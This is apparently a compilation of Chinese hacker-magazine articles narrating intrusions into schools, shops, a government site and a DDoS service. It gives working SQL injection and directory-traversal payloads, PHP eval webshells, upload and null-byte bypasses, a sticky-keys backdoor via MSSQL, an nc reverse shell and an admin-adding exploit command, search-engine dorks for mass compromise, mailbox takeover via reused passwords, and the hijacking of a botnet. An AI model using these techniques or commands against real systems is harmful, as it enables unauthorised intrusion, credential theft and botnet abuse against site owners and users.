看到这儿，聪明的读者也一定已经想到了扩展思路。没错，就是使用我们在啊D中猜解出来的账号和密码去尝试登录另外两个后台。结果正如我所预料，新闻发布系统和后台管理系统的账号及密钥都为同一个。从后台管理系统登录后可以看到服务器支持 aspx，因此服务器很有可能使用的是 Windows 2003 系统。接下来的问题就是如何得到 Webshell 以及提权了。像这种漏洞百出的网站，拿 webshell 和提权应该不是很难，这里我就给大家提供两种思路。


#### 一、非常规思路

从管理后台看到 .NET 就会很容易联想到 MSSQL。我以前在看源码时发现了一个很普遍的现象：后台程序的安全性相当差，跨站、注入、欺骗、上传、插入，其后台总能找出好几种漏洞。虽然在一定条件下只能叫鸡肋，但当满足某些条件也就成了致命突破口。

登录 .NET 后台编辑修改一条视频，尝试构造 URL 注入语句来操作数据库，如图4所示，发现其系统为 Windows 2003，并且执行数据库的账号权限为 sysadmin，看来可以执行管理命令，运气比较好。


继续操作我们就会发现 SQLSERVER 的 XP_cmdshell 以及 Xp_regwrite 等很多危险组件都没有卸载掉。既然可以利用的组件有这么多，那我们就使用下面的方法。执行以下命令后，登录远程服务器的 3389，然后按五下 Shift 弹出桌面，登录超级终端，就可以成功拿下服务器了，如图5所示。

```sql
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile', null, 'c:\windows\explorer.exe', 'c:\windows\system32\sethc.exe';

declare @oo int
exec sp_oacreate 'scripting.filesystemobject', @oo out
exec sp_oamethod @oo, 'copyfile', null, 'c:\windows\system32\sethc.exe', 'c:\windows\system32\dllcache\sethc.exe';
```


#### 二、利用新公布的 Windows 本地溢出程序

网站有备份功能，而且也有 cwcbedit，所以对于怎么拿 webshell 我就不再累赘了。接下来我们要利用的是刚公布不久的 IIS6.0 本地溢出程序。我总结出的一点经验如下：利用环境为 Windows2003 + IIS6.0 + XP_cmdshell，利用目录为“C:\wmpub”、“C:\RECYCLER”、“C:\temp”，其他目录我测试……

## 一个人的战争

尝试没有成功。先把我们的本地溢出文件 `p.exe` 上传到网站的 `C:\RECYCLER\` 目录下，如图6所示，然后就可以反弹一个 `cmd` 或者直接远程执行了。回来的 `cmd` 使用完毕后要记得执行 `exit` 退出，不然服务器上一直会有一个 `cmd` 进程。


直接在 `webshell` 里执行本地溢出程序，我就反弹一个 `cmd` 再进行溢出吧。先使用 NC 在本地进行监听，在本地电脑执行 `nc -vv -l -p 51`，然后在远程电脑中通过 `webshell` 执行命令 `nc.exe -e C:\RECYCLER\cmd.exe 本机IP 51`，如图7所示，就会在本地得到一个反弹回来的 `cmd`。我们使用 `cd` 命令转到 `recycler` 目录，然后直接执行 `p.exe "net user 用户 密码 /add & net localgroup administrators 用户 /add"` 来添加一个管理员账号并为它提升权限，如图8所示。

最后我们该如何得到对方的 3389 连接端口呢？方法很简单，只需要两条命令即可搞定。首先执行 `tasklist /svc` 查找到 `svchost.exe 2152 TermService`，服务所对应的 `PID=2152`，我们记住这个。然后再执行 `netstat -ano|find "2152"`，得到的结果为 `TCP 0.0.0.0:8899 0.0.0.0:0 LISTENING 2152`，是不是很方便呢？

本文的目的是为了提醒大家，注意程序的过滤以及熟悉黑客常用的入侵方法。虽然 WEB 目录做了防写入和图片目录防脚本执行，但是没有注意数据库和后台的安全。知己知彼，方能百战不殆，熟悉黑客的入侵手法，我们才能知道如何去做好安全防范工作。

> （文章中涉及到的 Windows 本地溢出程序 p.exe，已经收录在了光盘中）

### 由 ShopEx 脚本目录遍历漏洞引发的一次简单社工

龙影

这天群内，好友发出了一个网站 `www.xxxxx.com`，于是我习惯性地看了一下目录，结果发现了 shop 的目录，由此可以判断它是一个商城系统。当打开网址一看，才发现就是 ShopEx 商城系统，于是我在网址后面添加了默认的后台地址，提交后成功出现了管理员后台，但是试了所有默认和常用的账号密码都不能登录。因为它使用的是 ShopEx 商城系统，于是我就想起了最近才公布出的 ShopEx 脚本目录遍历漏洞，这个网站是否打过补丁呢？是骡子是马，拉出来遛遛就知道了。

我简单介绍一下这个漏洞的触发原因：漏洞是由于 ShopEx 的 `index.php` 脚本没有正确过滤用户所提交的请求，导致攻击者可以在请求参数中包含目录遍历序列读取指定位置的文件。我们来尝试提交 `http://www.xxxxx.com/shop/shopadmin/index.php?ctl=sfile&act=getDB&p[0]=../../config/config.php`，如图1所示，程序确实存在漏洞。


在爆出的配置文件中，我们可以得到服务器的相关信息，但是当我使用配置文件中的数据库账号和密码去后台尝试登录时，却提示失败，而且也不支持外部连接。返回到配置文件中继续查看，我发现数据库的密码竟然是一个手机号码 `139872xxxxx`。我们都知道数据库密码一般都是常用的、比较私密的密码，既然这里站长使用了一个手机号码作为数据库密码，那么就更能说明此号码的价值。


于是我就到搜索引擎中打算对这个手机号码社工一下，打开域名查询系统看了一下网站的 Whois 信息，看到域名注册时填写的邮箱为 `pxxxxxxx@163.com`。随后我打开了 163 网易邮箱，在输入账号的地方输入了 `pxxxxxxx@163.com`，密码那里当然是填写网站配置文件中数据库的密码，也就是那个手机号 `139872xxxxx`。不出意外，邮箱登录成功了。进入邮箱后，看到有大量未查看邮件；我们只要查看任意一封域名续费通知信，就可以在里面看到站长的 ID 和网站会员账号了。接着使用该账号和密码登录站点，最终成功进入并获取到虚拟主机相关信息。

### 挖掘网趣 shopV9.7 注入漏洞，Webshell 批量迎来“挡”

8月初我在朋友的博客里看到了网趣网上购物系统 V9.7 的注入漏洞，于是就从网上下载了一套源码，在虚拟机里进行了测试，成功地爆出了管理员的账号和密码，同时也成功得到了网站的 Webshell。漏洞文件是根目录下的 `price.asp` 文件，因为变量没有经过任何过滤直接带入数据库查询，所以就产生了漏洞。我们可以在百度中以 `inurl:Price.asp?anid=` 作为关键字进行搜索，然后来批量拿站，如图1所示。


下面我们来看漏洞的详细利用。在虚拟机里把这套系统搭建好，默认的网站主页如图2所示。想要爆出管理员账号和密码，只要直接在网站地址后面添加相应注入语句即可（文中示例为在 `price.asp` 参数中拼接 `union select` 语句）。


图3

```text
4,5,6,7,8,9,10,11,12,13,14,15,admin,17,18,19,20,21,22,23,24,25,26,27,password,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50%20from%20cnhww
```

“商品序号”中显示的是管理员的用户名，“会员价”中是管理员经过 MD5 加密后的密码，我们把密码拿到在线 MD5 网站上去破解，得到明文密码为“admin”……

网趣网上购物系统的默认后台是 `/admin/login.asp`，接下来我们登录进入后台拿 Webshell……


图4


图7


图5

首先来到“数据库备份”操作区，在“备份数据库目录”选项中把原有目录修改为 `Databackup.asp`，然后点击“备份”，会生成 `Databackup.asp` 文件……


图6

接下来我们在“添加商品”处单击“上传小图片”，在弹出的地址中把 `upfile/proimage` 修改成 `databackup.asp` 目录，提交后上传图片木马，重组地址后利用解析获得 Webshell……


客户端连接，看看能否成功，如图8所示，一句话木马成功连接，并且在同目录下生成了小马。

网趣网上购物系统还为我们提供了一个论坛，其实利用这个论坛我们也可以成功获得 Webshell。论坛的账号和前台的基本一样默认不变。首先我们要在论坛上传一个一句话图片木马，然后登录论坛的管理中心，默认路径是 `bbs/admin`，直接在后台添加 `data.asp?action=compressdata2&go=start` 提交，就可以直接跳转到论坛备份数据的地方。注意，这个在后台管理面板中可是没有的。如图9所示，来到论坛数据库备份的地方，在“当前数据库路径”中填写上传图片木马后得到的地址。上传后的图片都是默认保存在论坛根目录下的 `Uploadfile\TopicFile` 文件夹中，图片都会重新命名，我们可以在帖子中右键点击图片选择属性来查看上传后图片的重命名，如图10所示。

我们在“当前数据库路径”中填写 `..\Uploadfile\TopicFile\20108201233446.jpg`，其它可以默认保持不变，最后单击“开始备份”按钮，我们的小马就备份成功了，如图11所示。最后得到备份后的小马路径 `c:\inetpub\wwwroot\bbs\admin\databak\2010-8-20.asp`，补全地址就为 `http://127.0.0.1:8000/bbs/admin/databak/2010-8-20.asp`，把它放到一句话木马客户端中去连接，如图12所示，连接成功。至此，关于网趣网上购物系统的两种后台拿 Webshell 的方法就为大家介绍完毕了！


（文章中涉及到的网趣网上购物系统时尚版 V9.7、阿D注入工具，已经收录在了光盘中）


### BlueCMS v1.6 sp1 SQL 注入漏洞调试

txcbg

前段时间我的电脑坏了，修了很久。电脑修好后我就迫不及待地到网上看看都出了什么新漏洞，结果就看到了“cncxzsec臭小子”公布的 BlueCMS v1.6 sp1 的一个 SQL 注入漏洞。BlueCMS 是一个 PHP 地方门户系统，目前的最新版本为 BlueCMS v1.6 sp1，这正是存在漏洞的版本。

#### 一、漏洞简单分析

BlueCMS v1.6 sp1 出现漏洞的文件是网站根目录下的 `ad_js.php` 文件，相关代码如下：

```php
define('IN_BLUE', true);
require_once dirname(__FILE__) . '/include/common.inc.php';

$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
if (empty($ad_id)) {
    echo 'Error';
    exit();
}

$ad = $db->getone("SELECT * FROM " . table('ad') . " WHERE ad_id='$ad_id'");
```

代码中获得变量 `ad_id` 的值后，只使用 `trim` 过滤了两边空格，就带入了数据库查询，SQL 注入漏洞就此产生。

#### 二、漏洞利用

我下载了存在注入漏洞的 BlueCMS v1.6 sp1 的安装文件，在虚拟机的 PHP 环境下把 BlueCMS v1.6 sp1 安装了起来，在浏览器中打开 `http://127.0.0.1/blue/`，默认首页如图1所示。

```text
ad_js.php?ad_id=1%20and%201=2%20union%20select%201,2,3,4,5,concat(admin_name,0x7C0D0A,pwd),concat(admin_name,0x7C0D0A,pwd)%20from%20blue_admin%20where%20admin_id=1
```


比如我虚拟机里 BlueCMS v1.6 sp1 的网站地址为 `http://127.0.0.1/blue/`，那么在后面添加上述 payload 提交后如图2所示。页面看似空白，但在页面空白处右键“查看源文件”后，用户名和密码的 MD5 值会出现在源码中，如图3所示。


`\r\n` 前面的是管理员用户名，这里为 admin，后面的则为对应密码散列值，是管理员密码的 MD5 值，这里为 `21232f297a57a5a743894a0e4a801fc3`，拿到 MD5 在线破解网站破解出密码为 admin。

有了管理员用户名和密码就该进入后台拿 Webshell 了。BlueCMS 的默认后台目录为 `admin`，在虚拟机中直接访问 `http://127.0.0.1/blue/admin/` 就来到了如图4所示的后台登录页面，使用爆出来的用户名 admin 和破解出来的密码 admin 顺利进入后台，如图5。

在后台拿 Webshell，使用的是 my5t3ry 公布的方法，利用原理就是后台可以对模板文件进行编辑，编辑模板文件的链接类似 `http://127.0.0.1/blue/admin/tpl_manage.php?act=edit&tpl_name=ann.htm`，使用 `tpl_name` 变量来指定要编辑的模板文件。由于没有对 `tpl_name` 过滤好，导致可以编辑网站下的任意文件，我们编辑一个 `.php` 文件就可以直接获得 Webshell。BlueCMS v1.6 sp1 安装完后默认没有删除 `install` 目录，在 `install` 目录下有个文件 `index.php`，我们通过编辑它来获得 Webshell。直接访问 `http://127.0.0.1/blue/admin/tpl_manage.php?act=edit&tpl_name=../install/index.php` 就打开了如图6所示的编辑页面。

备份一下原 `index.php` 文件的代码，然后就可以清空 `index.php` 的代码了。我们来写入 PHP 一句话代码 `<?php eval($_POST[x]);?>`，当然也可以直接写个 PHP 大马上去，具体就看自己喜好了。点击“提交”按钮后提示“编辑模板成功”，PHP 一句话木马已经写进去了，使用 lanker 一句话 PHP 后门客户端 3.0 内部版来连接 `http://127.0.0.1/blue/install/index.php`，成功获得 Webshell，如图7所示。最后再使用一句话木马上传一个别的 Webshell 上去，恢复修改的 `install` 目录下的 `index.php`，漏洞利用就结束了。


如果 `install` 目录被删除了，我们还可以编辑网站目录下的其它 PHP 文件来获得 Webshell，只要灵活构造编辑模板文件的地址即可。我们在搜索引擎中搜索 `Powered by BlueCMS v1.6` 就可以找到存在这个漏洞的 BlueCMS v1.6 sp1 网站了。为了方便大家在本机进行测试，我把存在漏洞的 BlueCMS v1.6 sp1 的源代码 `PHP地方门户系统-BlueCMS v1.6 sp1.rar` 也一并打包提供给大家。

（文章中涉及到的 PHP 地方门户系统 BlueCMS v1.6 sp1，已经收录在了光盘中）

### 天缘学校网站系统 v1.3 上传漏洞拿 Webshell

#### 一、程序漏洞的简单分析

天缘学校网站系统采用了大众化的 ASP+Access 编写，前台使用了 DIV+CSS 编写，适合幼、中、小学以及技校使用。系统小巧但功能实用，可承受同时上千人访问的负荷，也可以根据自身需求更改系统功能。

引发这个漏洞的原因是作者在编写程序时逻辑不足，导致上传过滤不严格，攻击者可以上传限制类型以外的后门木马。漏洞文件位于 `admin` 目录下的 `Upfile_Photo.asp`，其相关代码如下：

```vb
PhotoUrlID=Cing(trim(upload.form("PhotoUrlID")))
if PhotoUrlID=1 then
    SavePath="/uploadfile/image/"
elseif PhotoUrlID=2 then
    SavePath="/uploadfile/image/"
elseif PhotoUrlID=3 or PhotoUrlID=4 then
    SavePath="/madie"
end if
...
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
    EnableUpload=false
end if
```

从代码中可以看出，程序在上传时只过滤了 Asp、Asa、Aspx 几种类型文件，因此可以上传这些类型之外的木马（如 cer、php）。文件上传后会保存到 `uploadfile/image/` 目录，并且在保存前对 `PhotoUrlID` 做了判断，因此需要在上传代码中加上对应赋值。


图1

至此，我们的入侵思路基本明确：上传 asp、asa、aspx 以外的木马，然后构造上传后木马的路径。

#### 二、漏洞简单拿 Webshell

在官方示例网站中，将上传文件表单中的 action 改为 `http://qiaosm.vicp.net:81/upfile_photo.asp`，保存为 html/htm 页面。上传两个文件（一个图片文件，一个木马文件），点击“上传”后显示上传成功。


图2


图3

最后右键查看源码，找到上传后的文件名并构造木马地址。示例文件名为 `big201081175459875.cer`，构造路径为：`http://qiaosm.vicp.net:81/uploadfile/image/big201081175459875.cer`。

## 一个人的战争


图4


图5

小马上传成功后，我们就可以上传自己的大马了，至此天缘学校网站系统 v1.3 上传漏洞的利用就为大家介绍完毕了。其实这套系统不仅存在上传漏洞，同时还存在着其它的一些缺陷，比如系统中也有 FCKeditor 在线编辑器，有兴趣的朋友可以继续研究一下。

> （文章中涉及到的上传文件 .html，已经收录在了光盘中）


阳光明媚的一个早上，我坐在电脑前，吃着小零食、听着歌、喝着饮料、聊着 QQ。嗯嗯，小生活过得不错吧！眼球一晃，看见群里有人在谈论学校网站的话题，突然间我就想到了当初检测自己初中和现在学校网站的事情，那真叫一个“杯具”，检测许多年，从来未成功……

因为某些原因，我从来没有拿到过自己学校的网站权限。回想起来，以前曾经有过一次机会，但当时由于自己的无知而错过了，这难道就是命运的安排吗？这天，可能是心血来潮，对于学校网站进行检测的心思竟然又复燃了。学校网站是独立服务器，没有旁站，整站使用的是 PHPCMS2007 的模板，如图1。虽然说是伪静态，但表面上看就像是一个全静态的网站，只有后台登录页面是 PHP 的，许多有漏洞的模板也没有安装，相对的，入侵的机会也就很渺茫了。

很多功能都没权限使用，如图3。经过一番测试，发现这个账号只有发布部分新闻和生成文章的权限。随后我又到网上找了一下关于 PHPCMS2007 拿 webshell 的文章，基本上没找到什么有用的资料。难道到了这步就叫我放弃？当时好郁闷啊，仔细地想了一会儿，不都说“一份耕耘，一份收获”吗，还是要坚持，不然永远也不会成功！


图1


图2

打开学校网站的后台登录页面，根据以前进入后台的经验，联想到大多数学校的后台密码都设置得比较简单，于是我就把以前社工得到的 8 个管理员账号逐一测试，没想到糊里糊涂地就成功了一个，如图2。哇，好幸运啊，当时兴奋得差点冲昏了头脑。

既然成功地进入了后台，那么搞个 webshell 应该不在话下吧，因为 PHPCMS2007 拿 webshell 是很简单的。但事实上却没有我想的那么乐观，后来才发现我使用的这个账号权限非常低。


图3

我来到添加新闻处，发现有个上传图片的功能，如图4。打开看看是否可以上传 php 文件，带着一丝希望我来到了这里，如图5，但是却以失败而告终。算了，先随便发布一个网页看看吧，重新来到图4的地方随便输入一番，点击提交，文章自动生成了。打开刚发布的文章，看到是类似 article_**.html 的名字命名的，本来想抓包看是什么方式生成的页面，突然发现图4的页面有一个“高级设置”的选项，打开后如图6所示，原来可以在这里设置呀。


图5

此时我想到了 Windows 2003 + IIS 6.0 的解析洞，但是这个网站是 Linux + Apache 2.2。嗯？Apache 2.2？好长时间没搞过 Apache，居然把 Apache 的解析漏洞给忘记了。于是就来到上图6所示的界面，把生成的文件名前缀更改为“.php.”，不管文件后缀为什么，只要是 .php.* 结尾的，就会被 Apache 解析成 php 文件。我把 php 一句话木马插入到文章中，然后生成文章，成功了！打开该文章的页面，如图7，准备连接一句话木马，可是不太对呀，一句话木马没被执行。后来才发现 .php. 后面跟的是个 ID.html，真是悲剧啊！看着表，已经 12:10 了，到了吃午饭的时间了，可不能为了个 shell 饿着肚子呀，随后起来活动了一下身子，吃了午饭，开始午睡。


图6

下午起来后，伸伸懒腰，终于坐回到电脑前，继续上午未完成的工作。上午遇到了 ID.html 的命名问题，于是我便想尽各种办法来试图绕过它，但是都没有成功。既然如此，那就只好祭出最后一招了，拿出 WsockExpert，开始抓包，看看是怎样创建文件的。打开 WsockExpert 主程序，选择好进程，如图8，确定后返回到编辑文章的界面，直接点击确定。提示成功后返回到 WsockExpert 中，此时可以看到已经抓到很多数据了，我把重要的地方截取了下来，如下：

“[addtime]=2010-07-07 15:51:06&article[ishtml]=1&article[htmldir]=html&article[prefix]=.php.&html_urlrule=0&php_urlrule=0&article[templateid]=0&article[skinid]=0&article[readpoint]=0”


图4

“[addtime]”参数是时间，“[htmldir]”参数是生成的目录，“[prefix]”参数跟的是我们自定义的文件名前缀，最后面的参数大概是判断利用什么模块和什么方式来生成文件，可以看出它们的值都为 0，应该是采用的默认方式。我们废话少说，直接来到主要部分，也就是“自定义文件名前缀”这里。开始时我猜测自定义文件名前缀这里是否可以使用 0x00 来截断，后来经过测试表明我的思路是正确的。我把前缀名改为“*.php%00”的格式（0x00 在 URL 编码后值为“%00”），因为是以 URL 的方式 POST 数据，亦可使用 nc 来提交，完全可以提交修改后的 URL 来达到生成任意文件名的目的，效果与使用 nc 提交是一样的，而且比 nc 更方便。下面是我修改好的完整链接：

“http://www.***.com/admin.php?mod=article&file=article&action=edit&catid=4&articleid=191&channelid=13&dosubmit=1%26referer=%3Fmod%3Darticle%26file%3Darticle%26action%3Dmanage%26job%3Dmanage%26channelid%3D13%26catid%3D0%26srchtype%3D0%26keywords%3D0%26orderbytype%3D0%26page%3D1%26pagesize%3D20...”


图7

```
cle%5Bmaxcharperpage%5D=10000&freclink=0&article%5Bstatus%5D=3&article%5Btitleintact%5D=&article%5Bsubheading%5D=&article%5Baddtime%5D=2010-07-07+15%3A51%3A06&article%5Bishtml%5D=1&article%5Bhtmldir%5D=html&article%5Bprefix%5D=x.php%00&html_urlrule=0&php_urlrule=0&article%5Btemplateid%5D=0&article%5Bskinid%5D=0&article%5Breadpoint%5D=0
```

“articleid=191”是生成文章的 ID，如果修改其它文章，只需要把 ID 号更改成想要修改的文章 ID 即可。在后台页面提交这个链接，提示更新成功后，也就成功地把 PHP 一句话木马插入到文章目录的 x.php 这个文件内了。


图8


图9

```
tid%5D=4&&ishtmled=1&old_arrposid=&article%5Btypeid%5D=0&article%5Btitle%5D=dsfasd&style_color1=&article%5Bstyle%5D=&article%5Bthumb%5D=&article%5Bkeywords%5D=&addkeywords=1&article%5Bauthor%5D=123&addauthor=1&article%5Bcopyfrom%5D=123&addcopyfrom=1&article%5Bintroduce%5D=&introduce_length=0&auto_thumb_no=1&article%5Bcontent%5D=%3Cfont+color%3D%22%23ff3300%22%3E%26lt%3B%3Fphp+eval%28%24_POST%5Bcmd%5D%29%3B%3F%26gt%3B%3C%2Ffont%3E&article%5Bpaginationtype%5D=0...
```

通过“lanker 微型 PHP+ASP 管理器”来连接一句话木马“http://www.***.com/html/x.php”，密码为“cmd”，成功导出了大马，如图9。此时的心情真是难以形容……以上就是我短浅的分析，由于个人水平有限，文章难免会有错误的地方，还望发现的高手、前辈以及有更好、更方便方法的朋友们不吝赐教。

> （文章中涉及到的 ASP+PHP 两用 Shell、抓包工具 Wsock-Expert，已经收录在了光盘中）

## 无意的入侵——一个PR6站点的沦陷

hx小龙（白雪龙）

事情的起因是这样的，有一天一同学发给我一个百度链接，说是 DNF 外挂的下载站的百度搜索，于是我便顺手打开看了看。网站做得很纯粹，前几个位居百度首位的基本都是论坛程序，做的也很简单，但翻到最后几个的时候，我看到了一个“http://www.xxxx.gov.cn/index.html？”的网址，这时我就纳闷了，gov 不是典型的政府类网站后缀吗，怎么会出现在 DNF 搜索的页面中呢？点击进去一看，如图1所示。

网站制作得很潦草，只有一个主页，页面上简单地罗列出了一些外挂的下载地址，仅此而已，我真的晕了。难道这么简单的网页也可以百度搜索排在第一页吗？所以我就把这个网址拿到了站长助手那里，顺手查了一下它的 PR 值，如图2所示，这居然是一个 PR6 的站点，好吧，再让我们共同晕一次吧。


图1

| Google PR数据采样 | 当前PR值 |
|---|---|
| toolbarqueries.google.com | 6 |
| 216.239.59.19 | 6 |
| 64.233.169.184 | 6 |
| 64.233.189.19 | 6 |

图2

重新打开网站的主页 http://www.xxx.gov.cn 进行查看，发现居然又变成了另外一个网页……打开百度，输入“site:http://www.xxx.gov.cn inurl:asp”，来查看一下搜索引擎对该网站 asp 网页的收录数量……原来这个站点是一个以 ASP 语言搭建的政府站点，但是却被非法利用了，HTML 的主页变成了 DNF 外挂站点……


图3

好了，既然有同行来过，那么该网站就意味着一定会有漏洞。再次打开网站，我随便点开了一个新闻，链接为“http://www.xxx.gov.cn/news/houtal.asp?id=6783&cid=203”这样的……

习惯性地顺手加了个“'”，发现返回的页面是相同的，再分别添加“and 1=1”和“and 1=2”，返回的结果也相同……

根据上图的提示，表明网站有可能存在注入漏洞，这时我们再顺手添加“and 1=1”和“and 1=2”进行检测……使用啊D进行检测，但在检测字段时却只跑出了个 id……


图4

网站注入暂时无果。根据我的习惯，我又在网址后面顺手加了个“admin”，没想到网站的默认后台并没有更改，如图5所示……使用万能密码“or”=“or”，成功地登录了进去。


图5


图6

后台的功能很简单，只有图片上传的地方，其它的什么都没有了，抓包也抓不到什么东西，所以我把目标又定位到了图片上传的地方，单击“图片上传”按钮，验证上传的页面。我们可以在本地构造一个页面，把 asp 文件提交上去，因为上传程序对于上传文件只进行了本地验证，但在服务器上却没有后缀的验证，所以我们在本地构造一个表单，就可以成功绕过上传验证了。就这样我成功地上传了自己的 asp 小马，是列目录漏洞，如图6所示。接下来依次顺着目录往下翻，发现小马已经乖乖地躺在那里了，如图7所示。

点开我们的小马，填写上大马的路径与代码，就这样 Webshell 到手了。拿到了这个站点的 Webshell 也就相当于拿到了那个网页的修改权限，我把同学要的外挂程序打包并传给了同学，任务完成。至此，一个 PR6 的站点就这样简单沦陷了。整个过程很简单，没什么困难的地方，主要是因为网站管理员的懒惰，才导致我的入侵成功。根据本文的入侵经历，我们应当得到的启示是：要勤于更换默认密码，完善后台的变量过滤，防止经典的万能密码漏洞重生；得当地划分服务器权限，避免服务器列目录，从而给入侵者一个收集信息的条件。


图7

> （文章中涉及到的啊D注入工具，已经收录在了光盘中）

## 对DDOS的一次入侵

杀虫剂（B.H.S.T）


这天在论坛看到有人发帖，题目很令人惊奇——史上最强 DDOS 攻击器。此软件说是可以穿硬防，30 只鸡就可以 D 死冰盾。我一看是这么牛的软件，就赶紧下载了一个回来，打算测试一下。但是打开软件，却要求按提示先注册一个测试账号，使用新注册的账号登录软件并抓包，抓包后显示验证地址为 http://ddos.hackroots.com/，如图1所示。

PING 了一下 ddos.hackroots.com 及主站 www.hackroots.com，返回的 IP 并不相同，说明它们并不在同一个服务器上。先拿下验证服务器才是重点，主站就先不管它了。


图1

数据库提权容易多了，PING 了一下 174.139.92.52，又使用“ARP -A”命令刷新了下 ARP 列表，显示在上面，看来可以嗅探，如图3所示。

下载了一个最新版的 CAIN 安装好，使用之前注册的...


图2

使用整理的加强版 WWWSCAN 扫描敏感目录和文件，结果扫描出了一个 http://ddos.hackroots.com/admin.html 文件，打开后发现里面记录了一个 IP：“61.191.191.97:8081”，这看起来有些像是肉鸡上线的端口，其它的什么信息就都没有了。使用 TELNET 连接 61.191.191.97 的端口 8081，发现可以 TELNET 通；TELNET 对方的 3389 端口也是开着的。打开 www.biying.com 查询，输入“IP:61.191.191.97”，显示这个服务器上有个网站，是 www.jxfhack.cn。金小锋？好像有这事，这家伙好像又卖肉鸡，又卖马还收徒，最牛的还是他的端木和后门（以上信息都是 baidu 上说的，不代表本人观点），如图2。

整理一下入侵的思路和目的，我主要就是想搞个 VIP 账号。验证文件是在 ddos.hackroots.com，但是网站又非常安全，看来只能嗅探了。使用 super_Injection 扫描 IP 为 1-80 这个网段的服务器，主要是担心跨段太大，目标不在同一网段内。经过一段时间的扫描和入侵，终于搞下了一个 ASP 的 WEBSHELL，但提权无果，我只好继续换了一个 ASPX 的网站来拿 WEBSHELL，这回提权成功了（ASPX 使用 MSSQL ...）


图3


图4


图5


图6

测试用户登录软件，前面提到放在上面，CAIN 成功抓取到了用户密码（主要测试能否抓到数据和 ARP 防火墙）。使用 nmap 扫描服务端可以 TELNET 通的端口，发现有 21、80、3389，其它的端口不行，先嗅探 21、80、3389。不久就嗅探到了一个网站的用户，使用这个用户登录 DDOS 软件，显示为终身用户，如图4、图5。

看来自己的人品还不错，既然能够登录软件，那么此人就应该跟这个软件或者作者有很大的关联。我 PING 了下 www.newstudents.info，返回的 IP 是 174.139.92.52。之前使用 biying 查询 C 段没看到有这个网站，应该是新建的还没有收录，我决定拿到这个站点的 SHELL。打开 www.newstudents.info 找到后台登录，输入 CAIN 截取到的账号和密码，成功地登录了进去，并且还是个管理员呢，如图6。

网站版权显示为“Powered By PJBlog3 v3.1.6.227 Copy-Right 2005 - 2008, 鞍山一中”，应该是对方就读的学校，现在小 HACK 可真多啊。在百度上搜索了一下 PJBlog3 拿 SHELL 的方法：1、后台模块设置；2、在线修改 Template/Link.asp 文件，插入一句话木马，成功地在后台模块插入了一句话并且上传大马，这里我使用了一款别人制作的 TOOLS 大马，感觉很不错，如图7所示。


图7

里面的 ASPX 刺探功能支持 ASPX，接着我又上传 BIN 的 ASPX 大马以方便提权，如图8。最后在利用 ASPX 的 IIS Spy 功能时，一个很有趣的情况出现了，如图9所示。在 www.hackroots.com 目录上传了一个 TXT 文件，但访问却提示不存在，应该是之前托放已经放弃使用了。不过 ddos.hack-roots.com 还是使用的这个。跳到目标域名目录下，发现全部是以用户名创建的 HTML 文档，当然 admin.html 也在。看了一下它上鸡的方式，是服务器验证而不是动态域名验证。这个验证的坏处就是如果修改 HTML 下的上鸡 IP，那么这些鸡就会全部转到我的软件上了。


图8


图9

在里面有 100 多个 HTML 文件，也就是说有 100 多个用户，如果全部转到我的 IP 上，不知道能上多少鸡呢，当然这只能再找时间进行测试了！继续看下提权，服务器是 VM，我试了好几个 0DAY 都没有成功，WEB 和数据库也是分离的，只能先嗅探着了。它的验证也在服务器上，以后还可以做个破解版呢，如图10。


图10

到晚上 7 点 44 分，吃完饭我等不及了，就修改了 admin.htm、鸡头（admin 叫鸡头没错）的 IP，把鸡全部转发到了自己的服务器上，如图11所示。我的目的已经达到了，当然其他的工作还有很多，比如说进一步的渗透等等，以后有时间再玩吧！


图11

> （文章中涉及到的 WWWSCAN、super_Injection、CAIN，已经收录在了光盘中）

## 一个人的战争

#### 浴缸不治本
#### 别异龙狮网站的一次安全检测

林中闲人（昝忠亮）

最近在检测某个网站时，管理员账号和密码都破解了出来，但就是找不到网站后台，尝试了好多方法也都没有成功，最后只好放弃。后来我为了省去找后台地址的麻烦，就直接在雅虎的搜索框里输入了“后台管理”进行搜索，翻了几页，便锁定了今天要检测的目标。

为什么我没有在谷歌和百度里去搜索呢？这是因为大家通常都会去那里搜索，搜出来的网站一般都被人去过了。直接打开搜索到的网站后台，如图1所示。这个后台相信大家都不陌生吧。先试了几个常用的弱口令，提示用户名和密码错误。至于万能密码就不用再试了，这种后台是不会存在的。

我找了一个存在传递参数的链接地址，在后面分别添加 **or 1=1** 和 **or 1=2**，提交后分别显示了正确页面和错误页面，说明存在注入漏洞。把这个链接地址直接拿到啊D注入工具里进行检测，很快就猜解出了用户名和密码的MD5值，如图2所示。接着我把密码拿到 www.cmd5.com 网站上进行解密，可查询结果却显示“密文无法识别或无法处理”，如图3。

图1  
图2  
图3

我又仔细看了一下密码的MD5值，居然是14位的。当初是找不到网站后台进不去，而现在却是找到了后台，又被密码的问题给挡在了门外，真是运气不佳啊！我索性把这个14位的字符直接当作了后台登录密码，没想到却意外地成功进入了。这站长也真够可以的了，把后台的MD5加密函数给省了……

登录进入了后台，我仔细查看了一下，发现有数据库备份功能，看来搞到WebShell也不是什么难事了。马上找到上传文件的地方，把ASP网马的扩展名改为 .jpg，成功上传并记录下上传后的路径与文件名，然后在浏览器中打开测试，证明文件已经成功上传了。打开“数据库备份”页面，在“当前数据库路径”处填写WebShell图片的地址，“备份数据库名称”处填写 ma.asp，如图4所示，点击“确定”，居然出现了如图5所示的对话框。

图4  
图5

看来这个站长还是有一些安全意识的，做了一定的处理。我在后台又转了一遍，发现还有 ewebeditor，试了一下登录界面，提示找不到该页，看来也给删除了。下载 ewebeditor 的后台数据库并打开，查看上传类型里有没有别人进来后添加的ASP上传类型，结果也是一无所获，似乎这次入侵检测又要以失败而告终了。马上到中午了，先去吃午饭回来再说，现在头也大了，正好借吃饭的机会清醒清醒。

吃完午饭回来后我又打开了这个网站，登录进入后台，突然标题后面的几个字引起了我的注意：“现在管理的是中文版，切换”，如图6。那么“切换”后会怎么样呢？

马上点击“切换”，点击后网站后台路径发生了改变，如图7所示。我重新转到了“数据库备份”页面，试了一下发现这个地方并没有被处理，备份的结果显示“找不到您所需要备份的文件。”看来站长没有注意到这个切换过来的后台啊，哈哈，我又看到希望了。因为后台路径发生了变化，所以对应的上传后的 .jpg 网马路径也发生了变化，在当前数据库路径的前面多输入一个“../”，确定后如图8所示，成功得到了WebShell。

